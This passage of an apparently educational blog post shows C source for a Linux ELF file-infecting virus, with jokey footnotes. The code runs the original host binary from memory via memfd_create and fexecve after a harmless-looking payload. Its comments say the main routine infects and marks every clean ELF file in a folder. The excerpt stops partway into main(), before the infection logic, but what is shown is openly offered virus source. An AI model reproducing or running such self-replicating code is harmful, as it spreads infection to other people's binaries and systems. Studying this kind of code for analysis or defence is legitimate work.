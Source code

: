 ```C { linenos=true, linenostart=1 }
	sendfile(fd, tmp_fd, NULL, final_size);
	close(tmp_fd);
}

/*
 * Run the host code by writing it into an in-memory file
 * provided by memfd_create(), which gives us a file descriptor
 * that can be used in conjunction with fexecve().
 *
 * We fork here so that the payload can be executed afterwards by
 * the parent process. It's not needed, though.
 */
void
run_host(int myself_fd, long myself_size, char *argv[])
{
	int host_fd;
	long virus_size = VIRUS_SIZE;
	long host_size;

	host_size = myself_size - VIRUS_SIZE;

	host_fd = memfd_create(argv[0], MFD_CLOEXEC);
	sendfile(host_fd, myself_fd, &virus_size, host_size - sizeof(DARK_MARK));

	pid_t child = fork();
	if (child == 0) {
		const char * const envp[] = {NULL};
		fexecve(host_fd, argv, (char * const *) envp);
	} else {
		waitpid(child, NULL, 0);
	}
}

/*
 * Print witty things.
 */
void
payload()
{
	printf("Attention, toilet paper tussle in progress!");
}

/*
 * Iterate over every entry in a given (quarantine) folder.
 * In case of a non-infected ELF file, infect and mark it.
 * The payload gets triggered and the host gets executed from memory if
 * this code is already attached to an infected binary.
 */
int
main(int argc, char* argv[])
{
	/* Get rid of the "unused variable" warning. */
	(void)argc;

	int elf_fd;
	int myself_fd;

	Elf *elf;
	DIR *dir;
	struct dirent *entry;
	struct stat myself_stat;
	struct stat elf_stat;

```

[^fn:1]: A small nod to the wonderful [DJ Smokey](https://soundcloud.com/smoke-gang-beatz/corona-doomsday-preppers-w-dj-smokey-soudiere-dj-kraft-dinna).
[^fn:2]: That's precisely why we need to keep track of the `VIRUS_SIZE`.
[^fn:3]: 🎩
[^fn:4]: Which conveniently lets us [specify](https://docs.python.org/3/library/os.html#os.execve) a file descriptor instead of a path for the file to be executed since `Python 3.3`.
[^fn:5]: It's _not_ the lack of error handling. That's missing intentionally so that things stay readable.
[^fn:6]: That doesn't mean there are no viruses in script form. Have a look at this [talk](https://www.youtube.com/watch?v=2Ra1CCG8Guo) by Ben Dechrai.
[^fn:7]: <https://www.youtube.com/watch?v=4jLT7GQYNhI&t=90s>
[^fn:8]: I'm not being overmodest, I really have no clue.
[^fn:9]: You can find it [here](https://sourceforge.net/projects/elftoolchain/).